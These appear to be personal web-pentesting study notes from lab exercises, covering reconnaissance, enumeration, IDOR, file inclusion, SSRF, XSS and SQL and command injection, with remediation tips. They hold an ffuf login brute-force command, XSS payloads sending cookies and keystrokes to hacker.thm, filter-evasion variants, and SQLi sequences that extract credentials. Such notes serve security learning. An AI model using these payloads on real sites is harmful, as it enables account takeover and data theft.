




# Web Notes

## Category

1.  Identification and Authentication Failure: login brute force
2.  Broken access control
    - Insecure Direct Object References (**IDOR**): if there are IMG\_1003.JPG, then it may exist IMG\_1002.JPG and IMG_1004.JPG
3.  Injection
4.  cryptographic failures

## Tools

- Website developper tools
    - Page Source
    - Inspector: see all html, css and js
    - Debugger: check out happen at the specific time
    - Network: open the window then refresh to get a network package

# Knowldge

### Robots.txt

A document that tells the search engine what page they aren't allowed show or crawled by the web crawler

### Favicon

The small icon in the browser address tab bar used of branding
Can be used to determine what framework was used
[OWASP favicon database](https://wiki.owasp.org/index.php/OWASP_favicon_database)
Use md5sum to check the favicon with the favicon database

### sitemap.xml

List every files on the website that wishes to be listed on search engine.
Contains defficult to navigate pages
contain link to the legacy pages

### HTTP headers

The responses that the webserver reponds when making an request

### Framework Stack

The framework (archtecture template) that the web server uses

---

# Notes Side Knowldege


## Crawlers
- index the domain (stored in database)
- crawling: retrieve information (keywords/image) about the websites
### Keywords listing
- Discovery: Discover websites based on content and scrape the keywords


- Spider web: using the URL from previous crawled websites

	- Intent to traverse URL obtained from the discovery

- The crawler have already indexed all website for keywod searching
- When user search of a keyword, all website contains a specific keywords get displayed

### Website hierarchy
- SEO (Search Engine Optimisation)
- businesses capitalise on improving a domains SEO “ranking”
- “prioritise” those domains that are easier to index
- point-scoring system: how “optimal” a domain is
	- **Responsiveness**: how responsive to different browser type
	- **Easiness**: crawling's easiness through the use of "Sitemaps"
	- **Related Keywords** :kind of keywords
	- **etc**. Each browser has their own "point-score" system
- Use several tools to analyse the SEO of a website
	- [Google's Site Analyzer](https://web.dev/measure/)

### Crawler Regulation
- Browser provides the crawler
- website/web-server owner can regular what can be crawled
- **Robots.txt**: first thing indexted by crawler
	- **located in root directory**
	- defines the permission the crawler has to the website
	- Keyword:
		- User-agent: Type of crawler allowed ('*': allow all user-agents)
		- Allow: specify what can index
		- disallow: specify what cannot index
		- sitemap: reference to the sitemap
	- robots.txt can use [regexing](https://www.rexegg.com/regex-quickstart.html)
- **Sitemaps**:
	- "geographical maps in real life", but for websites
	- route to find content
	- **located in the root directory**
		- /sitemap.xml 
			- [XML room](https://tryhackme.com/room/xxe) provides more details
	- holds a fair amount of weight in SEO optimization: **A 'wordlist' to the crawlers**

### Google Dorking
- Google Search Engine has arbitrary usage
	- normal search
	- use of functions
		- calculator
		- little game
		- etc
- google dorking is the search through the operand function to search for specific items
	- e.g. intitle:index.of
		- this lists everything on a website in a directory pattern

---

# OSINT

Open source intelligence
External resouces that helps discovering the target websites

### OSINT - Google Hacking/Dorking

Google dorking search technique [More](https://en.wikipedia.org/wiki/Google_hacking)

| filter | example | description |
| --- | --- | --- |
| site | site:tryhackme.com | returned result from specified address |
| inurl | inurl:admin | returned url with specified keyword |
| filetype | filetype:pdf | returned result with that file extension |
| intitle | intitle:admin | result that contain that specified word in title |

### OSINT - Wappalyzer

Identify the technology (framework, content management system, payment processor, etc) a certain website uses [More](https://www.wappalyzer.com/)

### OSINT - Wayback Machine

An Internet Archive: historical archive of the websites dates back to the late 90s. [Website](https://www.wappalyzer.com/)
Contain a copy of the website, this can be used to discover some of the link that are still active on the current website.

### OSINT - Github

Version control system you all know too well for

### OSINT - S3 Buckets

Cloud storage device provided by Amazon AWS
Sometimes their files permission stored on the AWS are incorrectly set
Access link:
http(s)://{name}.s3.amazonaws.com
{name} is decided by owner
e.g. tryhackme-assets.s3.amazonaws.com
Discovered by

- finding the link from the website sources pages
- github repositories
- automating the process (the guessing prosess)
    Most commum name to be automated: {name}-assets, {name}-www, {name}-public, {name}-private, etc.

### OSINT - Automated Directory

Using tools and wordlist to discover the unknown directory that are not listed publicly anywhere
pre-existed wordlist path: [Word list git source](https://github.com/danielmiessler/SecLists)
The command for this action:

```
fuff /* messy UI result, clear progress*/
dirb /* better UI, show directory path separately */
gobuster /* clean, show all path with a simple output */
```

### OSINT - Sublist3r

Speed up the DNS brute force attack using sublist3r.py script/tool

### Subdomain Enumeration

Process of finding valid subdomain for a domain
Discover attack surface and find more vulnerability

- brute force
- OSINT
- Virtual Host

## SSL/TLS

Secure Sockets Layer/Transport Layer Security certificate

- Created for domain by CA (certificate authority)
- CA take part in "Certificate Transparency (CT) logs"
- CT are publicly acessible log for every SSL/TLS certificate created for a domain name
- CT stops the bad certificate from being used
    Enter the domain name in the area to search for domain and historical certificate
- [site1 crt.sh](https://crt.sh)
- [site2 ct search](https://ui.ctsearch.entrust.com/ui/ctsearchui)

# Website Commun Vulnerability

## DNS Brute force

Use tools to guess or enumerate of different possible subdomains and feed to the DNS server

```
dnsrecon
```

## Virtual Hosts

Subdomain may not be completely publicly accessible, the address translation can be a private process on a **hosts header** (request side). (hosts file for windows) This is a local DNS file translate from sensitive sub-domain name to the IP address
use fuff to launch this enumeration

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.1.117 -fs {size}
```

## Authentication bypass

- Username enumeration: find a way to discover their username
- Brute Force: try a bunch of password with those username
    example bruteforce using ffuf

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.49.36/customers/login -fc 200
```

- Logic flaw: Jump intended path to get access to something
    e.g. the code checks for the exact match of "/admin", "adMin" is not checked and can be present to them
- Cookie Tampering
    - Clear text cookie info
    - Hash cookie info
        - Hash not reversible for security reasons
    - Encoding
        - Encoding is reversible for transmition purpose
        - Convert binary and human readable data
        - Iin which the transmittion only supports plain text ASCII character
        - Common encoding type: base32, base64
- *Storage Cookies

## IDOR

Insecure direct object reference
guess the other file/user/document by replacing the similar number
try tampering ID's with the following methods

- encoded id's using base64
- hashed id's using md45
- undeterminable ID: create two account and swap their "ID" number
    - if worked, then IDOR detected

They can be located in various places: AJAX request (developper tools > network > changing the AJAX some element request), reference JS file, endpoints, reference parameter during production, etc.

## File inclusion

- Local File inclusion (LFI)
- Remote File inclusion (RFI): ask the server to execute something outside of its domain
- directory/path traversal
    - often caused by poor input validation/filitering when passing to a function such as file\_get\_contents in php
    - go to another directory using ./../../etc
    - injection techniques: %00 or 0x00 (Null Byte) is a user supplied data to terminate te string, ignore anything after the null byte
        - Not working anymore with PHP 5.3.4 and above
    - /etc/passwd/. by pass filters
    - examine the error messages for what is missing

Sending post request to a server

```
curl -v -H "Content-Type: application/json" -X POST -d '{"file":"welcome.php"}' http://10.10.166.175/challenges/chall1.php
```

## Server Side Request Forgery (SSRF)

Two type of SSRF vulnerability

1.  Data is returned to the attacker screen
2.  Blind SSRF vulnerability, no data is returned to the attacker screen
    In short: The user is making a request in a url/other_means for the server to request something they souldn't have requested

- Example:
    - forge the api request that server expect to receive
    - forge the folder (using directory traversal) that server expect to receive
    - forge the request to another website

*&x= ignore the rest of the requested link

- Finding one
    - a nested URL in the address bar
    - url in a form (from source page)
    - partial url, e.g. just the hostname ("server=api")
    - the path of URL
- *If working on blind SSRF, an external HTTP working tools will be helpful ([requestbin](/Applications/Joplin.app/Contents/Resources/app.asar/requestbin.com "requestbin.com"), HTTP server, Burp Suite's Collaborator Client)

* * *

Defending SSRF
Two common way

- **Deny List**: restrict IP address in a localhost when specified
    - Cloud: best to deny 169.254.169.254 which contain metadata for the deployed server
    - Bypass: e.g. registering a subdomain under 169.254.169.254
- **Allow List**: All list gets deny unless on the list
    - Bypass: e.g. registering a subdomain with the allowed doman address
- **Open redirect**: If the above method doesn't work, endpoint on the server automatically that gets redirected to another website address may be a vulnerable point to explore
    - e.g. https://website.thm/link?url=https://tryhackme.com is for recording the number visitor clicked, this is a potential vulnerable link for using as a point of SSRF

## Cross-Site Scripting (XSS)

- based on Javascript
- injection with malicious Javascript into a web application and executed by the others
    - create XSS payload
    - modify payload to evade filters
- XSS vulnerability extreamly common
- **Payload**: JS code to be excecuted on the target computer, there are two part to the payload
    - **Intention**: what we hope JS to actually do, below are some of the examples:
        - proof of concept: confirm a website is vulnerable to XSS `<script>alert('XSS');</script>`
        - Session Stealing: redirect the cookie information to an under-controlled server
            `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
        - Key Logger: anything typed will be forwarded to an under-controlled server
            `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
        - Business Logic: calling a particular network resources, e.g. changing the email addres to perform reset password attack
            `<script>user.changeEmail('attacker@hacker.thm');</script>`
    - **Modification**: the change of the code to make it execute (depends on every scenario)
- **Reflected XSS (Client side)**
    - Embedded malicious scripts within **website source code** and collect information upon user's click.
    - e.g. Inserted script within source page.
    - How to test: test every single entrypoint
        - Parameters in the URL Query String
        - URL File Path
        - HTTP Headers
        - The idea is to find some **data being reflected in the web** application (in popup) and test if can **run JS payload**
- **Stored XSS (server side)**
    - XSS payload **stored on the web application**, gets executed when other users visit the site
    - e.g. Payload with post comment, run when user visit the article
    - How to test: test entry point where it might have data stored
        - comments on a blog
        - profile information
        - website listings
        - Give an **unexpected value to a field** can detect if it has XSS vulnerability: sends the request instead using the dropdown menu they provided and test if can **run JS payload**
- **DOM Based XSS**
    - Mostly imlement `<script></script>`
    - DOM (Document Object Model) programming interface for HTML and XML document. It can modify the page (whereas composed of many smaller object component). The **page document** can be represented in source code or HTML DOM diagram:  [DOM resource w3.org](https://www.w3.org/TR/REC-DOM-Level-1/introduction.html)
    - DOM based XSS is where the JS execution involve directly with the browser
        - no page loaded
        - no data submitted to backend code
        - Execution occurs/acts on input ot user interaction
    - Gets the content from `window.location.hash` and write it to the page. .hash does not check malicious code, hence allowing the JS injection
    - How to test:
        - require knowledge in JS to read source code
        - look for code that have access certain variables to take control.
            such as `window.location.x` code
        - see how they're handled, exploring if this part of the code has vulnerability
            - written to webpage DOM
            - handled to unsafe JS function such as eval()
- **Blind XSS**
    - Similar to Stored XSS, **stored payload**, but **can't see the payload** working or test it.
    - e.g. Sending payload through contact form to an internal user.
    - How to test:
        - Ensure payload has a call back (HTTP request)
        - A popular tool to use [xsshunter](https://xsshunter.com/#/)
            - captures cookies URLs, page contents, etc.
            - possible to make your own tools
- **About JS payload**
    - JS ignores `</>`
    - `<script>alert('THM');</script>`
    - `"><script>alert('THM');</script>` closing the previous value
    - `</textarea><script>alert('THM');</script>` closing the previous tag, the `</textarea>` that is left will be ignored, additional closing tag gets deleted
    - `';alert('THM');//` closing the previous and comment the rest
    - `<sscriptcript>alert('THM');</sscriptcript>` when "script" is getting filtered
    - `/images/cat.jpg" onload="alert('THM');` use onload when <> gets filtered
    - Example payload provided: `</textarea><script>fetch('http://10.10.70.131?cookie=' + btoa(document.cookie) );</script>`
        - fetch(): commands makes an HTTP requests
        - the http is the request catcher
        - `?cookie=` query cookies string
        - `btoa()` command base64 to encode the victim's cookie
        - `document.cookie` access victim cookie for the website

## Injection

Learn more Injection [Here](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection.html)
### Email Injection
Allow malicious user to send email messages without prior authorization by the email server, usually occurs by adding extra data to field.

### Command Injection

- AKA Remote Code Execution (RCE), remotely execute the command within an application
- Abuse of an **application**'s behaviour **to execute command** on the operating system
- e.g. Obtain "Joe"'s user permission, and run command under Joe and obtain any permission that Joe has.
- [**Command Injection Cheat Sheet**](https://github.com/payloadbox/command-injection-payload-list)
- **Discover** : Takes the user input $title as part of the command request, takes this as advantages and inject command:
    
- **Exploiting**: This is usually an unintended behaviour. Look for the behaviour of the application. Watch out for `;`,`&` and `&&` for command behaviour.
    - Can be detected in two way:
        - blind command injection:
            - use payload that can cause time delay such as `ping` or `sleep` for linux, `timeout` for Windows.
            - forcing some input using redirection operato `>`
            - use `curl` command to test for command injection: deliver data to and from an application in the payload
        - verbose command injection: gives feedback
    - Useful payload:
        - Linux: `whoami`, `ls`, `ping`, `sleep`, `nc`
        - Windows: `whoami`, `dir`, `ping`, `timeout`
- **Remediating**:
    - Input *sanitisation*: specifying the format/type of data that a user can submit or remove special character `>`, `&` and `/`.
    - *Bypassing* filters: restrict to specific payloads
        - application may stripped out a quotation mark, the input can bypass it using hexadecimal value

### SQL Injection (SQLi)
- Easily to test out with ` ' or 1=1-- `, some uses ` ' or 1=1;-- `
- Structured Query Language
- indicated by adding `'` at the end of HTTP request to confirm if vulnerable to SQLi, (positive vulnerability if returned server internal error)
- When user provided data gets included in the SQL query
- Example injection:
    - `https://website.thm/blog?id=1`, `SELECT * from blog where id=1 and private=0 LIMIT 1;`
    - `https://website.thm/blog?id=2;--`, `SELECT * from blog where id=2;-- and private=0 LIMIT 1;`, return whose id=0 wheither it is public or not.
    - *`--` cause everything after ward treated as comment
- similar to peeling an onion, use the existing information, step by step, building the the target command with the heavy use of `information_schema` (which contain all the information in the database)
- **Three type of Injection**:
    - **In-Band SQLi**:
        - The easiest type of SQLi: Use the same method of communication being used to exploit the vulnerability and also receiving result.
            - Error-Based SQLi: intentionally trigger an error message to obtain information about a database. Commontly being explored using `'` or `"`.
            - Uses the UNION command along with select to return additional result to the page
        - `information_schema` contain all the important information and every user has access to it
        - Example command:
            1.  `0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
            2.  `0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`
            3.  `0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`
    - **Blind SQLi**:
        - **Authentication Bypass**: based on the database providing a **boolean answer of true/false** for the user & password matches.
            - e.g. Database use this to check login: `select * from users where username='%username%' and password='%password%' LIMIT 1;`, enter `' OR 1=1;--` in the field to bypass it.
        - **Boolean Based**: use the reflected boolean field to confirm the structure of a database. (By intentionally SQL a false boolean and add other queries to confirm the added aspects exists.)
            - Example:
                1.  determe how many column in this table: `admin123' UNION SELECT 1,2,3;--`
                2.  determe what is the database name: `admin123' UNION SELECT 1,2,3 where database() like 's%';--`
                3.  determine table name in this database using information_schema `admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='u%';--`
                4.  determine clumn name in this table: `admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';--`
                5.  determine username: `admin123' UNION SELECT 1,2,3 from users where username like 'a%`
                6.  determine password: `admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`
                7.  FULL behind the scene statement: `select * from users where username = 'admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--' LIMIT 1 `
        - **Time Based**: Similar to Boolean Based, but without true/false indication. The indicator of a correct query is based on the **time query** using the build-in method Sleep(x) (sleep() gets executed when success)
            - URL statement (starts after referrer): `https://website.thm/analytics?referrer=admin123' UNION SELECT SLEEP(2),2 from information_schema.columns where table_schema='sqli_four' and table_name='analytics_referrers' and column_name != 'domain' and column_name != 'id' and column_name like '%';--`
            - FULL statement behind the scene: `select * from analytics_referrers where domain='admin123' UNION SELECT SLEEP(2),2 from information_schema.columns where table_schema='sqli_four' and table_name='analytics_referrers' and column_name != 'domain' and column_name != 'id' and column_name like '%';--' LIMIT 1 `
        - **Out-of-Band SQLi**: Depends on the feature enabled on the database server
            - Have two different communication channel, one for the attack and the other for collecting the result: sending payload to the website, website sends the request to the server and force the server to send back the result to the hacker's machine
- **Remediation**:
    - **Prepared Statement**: Adding input as parameter; database can distinguish between query and data
    - **Input Validation**: restrict input to only certain strings/filter the characters
    - **Escaping User Input**: escaping user input is a method of prepending (\\) to these characters and cause them to be parsed as a regular string instead of special character.
- **SQL knowledge**: Relational Vs Non-Relational Databases:
    - Relational: stores information in tables and each key can be repurposed to other tables
    - Non-relational: AKA NoSQL, database that doesn't use tables to store data. Hence gives a higher flexibility: e.g. MongoDB, Cassandra and ElasticSearch
    - Example SQL command:
        - `select * from users where username='admin' or username='jon';`
        - `select * from users where username like '%mi%';`
        - `SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;`
        - `insert into users (username,password) values ('bob','password123');`
        - `update users SET username='root',password='pass123' where username='admin';`
        - `delete from users where username='martin';`
        - `delete from users;`


# OWASP

## 1. Broken Access Control
Website visitor are allow to see the pages that they are not allowed.
-> Bypass authorization

## 2. Cryptographic Failures
 Bad use of encryption
 -> Transparent data flow
 
## 3. Injection
SQL injection
Command injection
-> add private stuff to have the system spit the target info

## 4. Insecure Design
Insecure design and insecure password resets
Vulnerability which are inherent to the application's architecture
The idea of whole application is flawed from the start
-> Design flaw

## 5. Security Misconfiguration
As the name suggest, poorly configured server/service lead to security risks. Poorly managed service include permission, unecessary feature, default account and password, error message overly detailed, HTTP security headers
-> initial configuration & Human flaw

## 6. Vulnerable and Outdated Components
Unupdated version of software with their CVE easily found in database.
-> Past vulnerability are saved online on repository with full solution, go look for them 

## 7. Identification and Authentication Failures
Playing with authentication system
-> play with username & password or session cookies (or cookies)

## 8. Software and Data Integrity Failures
Integrity is secured with a hash
-> no third party integrity check before usage of scripts
Third party script integrity problem can be solved using [SRI](https://www.srihash.org/)

## 9. Security Logging & Monitoring Failures
-> Log files tells everything

## 10. Server-Side Request Forgery (SSRF)
Ask server to send resquest to attackers controlled server. They often arises with third party services. 
server-side: the server + request: sends GET/POST request + forgery: inappropriate request = server send forgered request. 

